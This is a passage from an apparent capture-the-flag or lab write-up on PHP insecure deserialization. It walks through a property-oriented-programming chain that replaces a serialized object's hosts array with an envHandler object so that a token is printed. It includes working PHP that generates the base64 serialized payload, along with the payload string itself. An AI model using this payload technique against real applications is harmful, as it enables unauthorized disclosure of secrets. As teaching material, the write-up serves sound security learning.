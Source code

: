 So the `envHandler` class has a function that prints the token and this function `getToken` happens to have the same name as a function called in `hosts.php`. We can use this as our very simple POP chain (POP is Property Oriented Programming); that is, we will create our `HostHandler` serialized string, but change the contents of the `$hosts` property to be an array with a single `envHandler` type object.

```php
foreach($this->hosts as $host){
    echo "<tr><td>" . $host->getHostname() . "</td><td>" . $host->getUser() . "</td><td>" . $host->getToken() . "</td></tr>";
}
```

When the above code is called in `hosts.php`, the `$host` variable will no longer be a `Host` class object, but an `envHandler` object. Thus, `$host->getToken()` will now call the `getToken` method from `envHandler`, and print out our token.

To create our serialized string, it is easiest to just write some PHP code and serialize it, rather than trying to modify the existing string. To do this, create a file (I'll call it `serial.php`) and enter the following PHP code.

```php
<?php 
class envHandler {}

class HostHandler{
    private $hosts;

    function __construct($hosts){
        $this->hosts = $hosts;
    }
}

//The following line creates an array with a single envHandler, and stores that array as the hosts property of the new HostHandler 
$payload = new HostHandler([new envHandler()]);
echo base64_encode(serialize($payload));
//Output: TzoxMToiSG9zdEhhbmRsZXIiOjE6e3M6MTg6IgBIb3N0SGFuZGxlcgBob3N0cyI7YToxOntpOjA7TzoxMDoiZW52SGFuZGxlciI6MDp7fX19
```

Note that the PHP classes only define the classes and properties; we do not define the methods, since those are not serialized and thus not necessary. Run the PHP script (or copy the output from the above comment) using `php serial.php`, and upload the output to the import script.

![A screenshot of the terminal showing the PHP script being executed and outputting the base64-encoded serialized PHP string (the output string can be found as a comment at the end of the PHP code).](./imgs/serial-generate.png "Generating the B64-Encoded Serialized String")
